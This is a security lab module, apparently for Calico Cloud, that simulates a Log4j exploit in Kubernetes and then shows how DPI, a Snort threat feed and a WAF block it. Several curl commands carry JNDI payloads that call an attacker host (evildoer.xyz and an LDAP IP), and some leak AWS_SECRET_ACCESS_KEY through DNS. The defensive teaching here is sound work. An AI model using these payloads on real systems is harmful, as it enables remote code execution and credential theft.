 ```yaml
---
slug: waf-dpi
id: km7fd7bgqviq
type: challenge
title: Mitigate the risk of Log4j using DPI and WAF
teaser: Apply security policies to reduce the attack surface.
notes:
- type: image
  url: ../assets/module03.png
tabs:
- title: Shell
  type: terminal
  hostname: controlplane
- title: Calico Cloud
  type: website
  hostname: controlplane
  url: https://www.calicocloud.io/home
  new_window: true
difficulty: basic
timelimit: 600
---
```


Log4j exploit simulation
================

**So how does this attack work?**
- In simple terms, the attacker exploits the vulnerability by sending a malicious request that includes an IP of the command and control (C&C) server to the Java Log4j server, and then the Log4j library executes it without verification and starts the communication with the C&C server.
- This results in an open threat that can be used to send the malicious payload by crafting a malicious request.

We will simulate the Log4j exploit in the `dev` namespace.


1- Get the IP address of the `vr-dev` service in the `dev` namespace.

```
kubectl get svc -n dev
```

2- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

3- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Notice the IP of the C&C server is part of the query `185.220.101.56`.

4- Now let's go to the Calico Cloud UI to see the impact of this query.
- From the left menu, select **Service Graph** and choose ***Default**
- Double-click **Dev** namespace
- Click on the line that represents the traffic from `multitool` to `vr-dev` and expand the flows to see the details.

![Image Description](../assets/multitool-to-vr.png)

- click on the line that represent the traffic from `vr-dev` to `public network` and expnad the fllows to see the deatails.

![Image Description](../assets/vr-to-public.png)

Now the attacker has an open threat that could be used to send the malicious payload.

It's time to add some guard rails to protect against these malicious requests.

Deep Packet Inspection
================

1- Create a `DeepPacketInspection` resource. In this example, we will enable DPI on the `vr-dev` service in the `dev` namespace.

```bash
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: DeepPacketInspection
metadata:
  name: dpi-vr
  namespace: dev
spec:
  selector: app == "vr"
EOF
```

2- Check that the `tigera-dpi` pods are created successfully. It's a daemonSet, so one pod should be created in each node.

```bash
kubectl get pods -n tigera-dpi
```

3- Now, let's re-run our test.

- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.${env:AWS_SECRET_ACCESS_KEY}.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

4- This time, you should get an alert in Calico Cloud’s UI. Check the alert in the `Service Graph` or `Alerts` page.

![Image Description](../assets/dpi-alert.png)

![Image Description](../assets/alerts-page.png)


Threat feeds
================
Another mechanism to proactively restrict workload access is to use global threat feeds. Threat feeds are databases of known malicious IPs and FQDN that get updated regularly, and you can integrate them into Calico Cloud.

In this example of the Log4j exploit, the command and control IP address is listed in the Snort threat feed.

Let's configure Snort threat feeds to stop the log4j exploitation.

1- Create GlobalThreatFeed.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalThreatFeed
metadata:
  name: snort-ip-block-list
spec:
  pull:
    http:
      url: https://snort.org/downloads/ip-block-list
  globalNetworkSet:
    labels:
      threatfeed: snort
EOF
```

2- Create a security policy to block traffic to malicious IPs.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalNetworkPolicy
metadata:
  name: tigera-security.block-snort-ipthreatfeeds
spec:
  tier: tigera-security
  order: 0
  selector: all()
  namespaceSelector: ''
  serviceAccountSelector: ''
  egress:
    - action: Deny
      source: {}
      destination:
        selector: threatfeed == "snort"
  doNotTrack: false
  applyOnForward: false
  preDNAT: false
  types:
    - Egress
EOF
```

3- Repeat the log4j test.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.${env:AWS_SECRET_ACCESS_KEY}.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Now you notice that traffic is blocked because the C&C server IP is a malicious IP.

![Image Description](../assets/snort-threatfeeds.png)
![Image Description](../assets/threatfeed-alert.png)


Web Application Firewall (WAF)
================
Calico Cloud’s workload-based web application firewall (WAF) helps you protect cloud-native applications from application-layer attacks.

Important: You need to delete the globalthreatfeeds we created before to ensure it's not blocking the traffic.

```bash
kubectl delete globalthreatfeeds snort-ip-block-list
```

1- In this lab, WAF is enabled by default. You can check the status by running the following command:

```bash
kubectl describe  ApplicationLayer tigera-secure | grep 'Web Application Firewall'
```

2- Now you need to annotate the services for which you wish to enable WAF. In this example, we will annotate the `vr-dev` service.

```bash
kubectl annotate svc vr-dev -n dev projectcalico.org/l7-logging=true
```

3- If you try to exploit the Log4j vulnerability again, traffic should be blocked and you should get the following alert:

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```
- This time you should get a different http response as following

```bash
 HTTP/1.1 403 Forbidden
```

🏁 Finish
============
Click **Next** to continue to the next challenge.

